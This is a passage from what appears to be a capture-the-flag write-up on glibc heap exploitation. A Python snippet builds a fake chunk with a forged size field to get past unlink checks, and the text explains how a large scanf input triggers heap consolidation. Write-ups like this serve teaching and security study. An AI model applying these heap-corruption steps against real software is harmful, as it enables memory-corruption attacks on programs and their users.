 ```python
consolidate()

# Reclaim FAKE CHUNK which now have valid pointers to bypass unlink
payload = p64(0) + p64(0xc91)               # Fake size 0xc80 (0x450 - 0x10 + 0x420 * 2)
add(0x448, payload, b"META_FAKE")           # idx: 3
```

To trigger the consolidation I used a simple trick with `scanf`, which if we
provide a large input (greater than 0x800, if I remember correctly) it will
allocate space for the buffer onto the heap.  
This is what it looks like in memory

![Fake chunk](./writeup/fake_chunk.png)
